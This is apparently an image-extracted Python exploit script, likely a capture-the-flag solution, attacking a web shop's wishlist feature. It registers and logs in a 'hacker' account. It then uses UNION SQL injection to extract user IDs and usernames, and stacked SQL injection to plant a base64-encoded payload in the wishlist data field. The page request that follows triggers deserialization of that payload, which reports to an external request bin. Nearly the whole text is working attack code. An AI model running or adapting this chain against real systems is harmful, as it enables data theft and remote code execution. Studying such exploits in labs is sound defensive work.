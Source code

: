 ```python3
            "username": "hacker",
            "password": "hacker",
            "__RequestVerificationToken": csrfToken,
        }
        print("Logging in as hacker...")
        r = session.post(f"http://{IP}:{Port}/", data=data, allow_redirects=False)
        
        return session

def exfiltrateID(session):
    print("Adding first item to create the wishlist in database...")
    # Add the first item so that the wishlist is created in the database
    data = {
        "sellerName": "Xclow3n",
        "name": "Shadowcaster MK VI"
    }
    session.post(f"http://{IP}:{Port}/Home/Wishlist", data=data)

    # Union-injection to exfiltrate current user ID 
    # by including ID as the name of an item in the wishlist
    print("Exfiltrating current user ID...")
    data = {
        "sellerName": "Xclow3n",
        "name": "' union select 1, (select group_concat(ID_username) from (select (ID||':'||username) as ID_username from Wishlist)), 3, 4, 5, 6, 7--"
    }
    session.post(f"http://{IP}:{Port}/Home/Wishlist", data=data)

    # GET request to retrieve exfiltrated ID
    r = session.get(f"http://{IP}:{Port}/Home/Wishlist")
    ID = exfiltrationPattern.findall(r.text)[0].split(":")[0]

    return ID

def deliverPayload(session, ID):
    # Update current user's wishlist.data
    print("Delivering payload...")
    base64Payload = base64.b64encode(payload.encode()).decode()
    SQLi =f'''' union select 1 , '', 3, 4, 5, 6, 7) as "n" LIMIT 1; UPDATE Wishlist SET data='{base64Payload}' WHERE ID='{ID}';--'''
    data = {
        "sellerName": "Xclow3n",
        "name": SQLi
    }
    session.post(f"http://{IP}:{Port}/Home/Wishlist", data=data)

def triggerPayload(session):
    # Trigger deserilization of the payload 
    # by retrieving current user's wishlist
    print("Triggering payload...")
    session.get(f"http://{IP}:{Port}/Home/Wishlist")
  
def exploit(session):
    ID = exfiltrateID(session)
    deliverPayload(session, ID)
    triggerPayload(session)
    print("Done! Check Your HTTP Request Bin")
    
def main():
    # Register a new user
    register()
    # Login and retrieve session token so that we can interact with more backend APIs
    session = retrieveSession()
```